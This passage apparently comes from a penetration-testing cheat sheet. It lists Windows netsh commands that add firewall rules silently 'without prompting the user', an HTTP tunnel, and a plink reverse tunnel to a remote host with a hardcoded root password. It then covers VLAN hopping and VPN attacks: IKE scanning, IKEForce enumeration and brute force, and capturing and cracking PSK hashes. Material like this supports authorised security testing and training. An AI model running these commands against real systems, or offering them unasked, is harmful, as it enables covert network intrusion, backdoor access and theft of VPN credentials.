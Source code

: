     -   Windows machine add required firewall rules without prompting the user
 
    -   `netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes`
 
    -   `netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000`
 
    -   `netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080`
 
    -   `netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079`
 
    -   Start the http tunnel client  
   
         `httptunnel_client.exe`
 
    -   Create HTTP reverse shell by connecting to localhost port 3000  
   
        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000`
 
-   VLAN Hopping
 
    -   `git clone https://github.com/nccgroup/vlan-hopping.git  
        chmod 700 frogger.sh  
        ./frogger.sh`
       
 
-   VPN Hacking
 
    -   Identify VPN servers:  
        `./udp-protocol-scanner.pl -p ike $ip`
 
    -   Scan a range for VPN servers:  
        `./udp-protocol-scanner.pl -p ike -f ip.txt`
 
    -   Use IKEForce to enumerate or dictionary attack VPN servers:  
   
        `pip install pyip`  
       
        `git clone https://github.com/SpiderLabs/ikeforce.git  `
       
        Perform IKE VPN enumeration with IKEForce:  
       
        `./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic  `
       
        Bruteforce IKE VPN using IKEForce:  
       
        `./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1  `
        Use ike-scan to capture the PSK hash:  
       
        `ike-scan  
        ike-scan TARGET-IP  
        ike-scan -A TARGET-IP  
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key  
        ike-scan –M –A –n example\_group -P hash-file.txt TARGET-IP  `
        Use psk-crack to crack the PSK hash  
       
        `psk-crack hash-file.txt  
        pskcrack  
        psk-crack -b 5 TARGET-IPkey  
        psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key  
        psk-crack -d /path/to/dictionary-file TARGET-IP-key`
 